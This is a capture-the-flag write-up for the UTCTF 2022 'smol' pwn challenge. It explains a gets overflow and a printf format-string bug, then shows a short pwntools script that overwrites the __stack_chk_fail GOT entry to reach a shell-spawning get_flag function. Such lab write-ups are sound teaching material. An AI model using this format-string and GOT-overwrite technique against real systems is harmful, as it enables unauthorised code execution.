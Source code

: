 ```yaml
---
title:  "[UTCTF 2022] smol"
date: 2022-03-14 10:12:50
author: aynakeya
---
```


# 0x0 Introduction

In this challenge, a binary `smol` is provided. 

# 0x1 Mitigation

```
    # Arch:     amd64-64-little
    # RELRO:    Partial RELRO
    # Stack:    Canary found
    # NX:       NX enabled
    # PIE:      No PIE (0x400000)
```

<!-- more -->

# 0x2 Identify the problem

here is a simplified version of what is main function doing. 
```
main(void)
{
    var char *s1 @ rbp-0x150
    var char *format @ rbp-0xe0
    var char *s @ rbp-0x70
    var int64_t canary @ rbp-0x8

    canary = *(in_FS_OFFSET + 0x28);
    sym.imp.puts("What kind of data do you have?");
    sym.imp.gets(&s1);
    iVar2 = sym.imp.strcmp(&s1, "big data");
    if (iVar2 == 0) {
        // set variable format to some certain format
    }
    else {
        // set format to some certain format
    }
    sym.imp.puts("Give me your data");
    sym.imp.gets(&s);
    sym.imp.printf(&format, &s);
    sym.imp.putchar(10);
    if (canary != *(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return 0;
}
```

Take a brief looking at the code, we can identify two trivial vulnerability here. One is `gets`, which allow us to write arbitrary number of bytes to the stack. Another is `printf`, printf allow us to read/write data at specific address.

Since `format` is locate under variable `s1`, we can overwrite `format` with any format we want using `gets(&s1)`. This allow us to do a arbitrary read/write with `printf`. 

My first idea is try to leak the data in the canary and then do a rop chain to get a shell. However, `printf` execute after last `gets` function. Even we get the canary, we can't overwrite canary because there is no stack overflow bug after that.

Lets take look at mitigation again, the mitigation shows that this program is partial RELRO. This allows us to modify the function address in the global offset table. So it is a good idea using `printf` to overwrite `__stack_chk_fail`'s address to a code address in global offset table. Then, we overwrite canary to trigger `__stack_chk_fail` and call the code we want.

Luckily, the binary kindly give us a backdoor at `get_flag()`. So, write address of `__stack_chk_fail` at GOT to `get_flag()` will give us a shell.

```
void sym.get_flag(void){
// some code
    sym.imp.execve("/bin/sh", &var_20h, 0);
// some code
    return;
}
```

# 0x3 Exploits

```
io = connect("pwn.utctf.live", 5004)

print("got __stack_chk_fail,",hex(exe.got["__stack_chk_fail"]))
payload1 = flat({
    0x0:exe.got["__stack_chk_fail"],
    0x150 - 0xe0: b'%%%dx%%6$hn\x00' % 0x1349
},filler=b"A")
io.sendlineafter(b"do you have?\n",payload1)
# trigger stack chk fail
io.sendlineafter(b"Give me your data\n",b"A"*0x70)
io.interactive()
```